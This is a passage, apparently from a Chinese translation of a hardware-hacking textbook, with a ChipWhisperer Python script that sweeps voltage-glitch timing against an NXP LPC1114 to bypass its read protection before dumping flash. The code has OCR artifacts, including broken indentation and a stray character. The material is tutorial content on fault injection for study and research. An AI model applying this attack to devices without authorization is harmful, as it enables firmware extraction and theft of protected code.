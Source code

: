 现在我们可以看到设备启动，我们基本上已经准备好插入故障。我们要做的就是编写一个脚本，扫描故障的时序，看设备是否能解锁。如果设备成功解锁，我们就可以进行下一步，转储整个闪存。

列表 6-8 展示了重要部分（查看 Jupyter 笔记本中的完整示例）。在这里，我们指定了一个偏移范围，可以沿着这个范围进行扫描，找到有用的信息。你需要知道，代码的 100%成功率取决于你的物理连接；你可能需要多次运行此代码才能成功。我们还通过给出一个非常狭窄的偏移范围作弊，这有助于我们多次重复攻击。

```
import time
print("Attempting to glitch LPC Target")

nxpdev = CWDevice(scope, target)

Range = namedtuple("Range", ["min", "max", "step"])

# Empirically these seemed to work OK, we want to hit around
# time 51.8 to 51.9 μs from reset. CW-Nano doesn't have as meaningful
# timebase as CW-Lite, so we just sweep larger ranges...
offset_range = Range(5600, 6050, 1)
repeat_range = Range(9, 15, 1)

scope.glitch.repeat = repeat_range.min

done = False
while done == False:
    scope.glitch.ext_offset = offset_range.min
    if scope.glitch.repeat >= repeat_range.max:
        scope.glitch.repeat = repeat_range.min
    while scope.glitch.ext_offset < offset_range.max:

        scope.io.nrst = 'low'
        time.sleep(0.05)
        scope.arm()
 scope.io.nrst = 'high'
        target.ser.flush()

        print("Glitch offset %4d, width %d........"%
                (scope.glitch.ext_offset, scope.glitch.repeat), end="")

        time.sleep(0.05)
        try:
            nxpp = nxpprog.NXP_Programmer("lpc1114", nxpdev, 12000)

            try:
              1 data = nxpp.read_block(0, 4)
                print("[SUCCESS]\n")
                print("  Glitch OK! Add code to dump here.")
                done = True
                break

            except IOError as e:
                #print(e)
                print("[NORMAL]")

        except IOError:
            print("[FAILED]")
            pass

        scope.glitch.ext_offset += offset_range.step

    scope.glitch.repeat += repeat_range.step
```
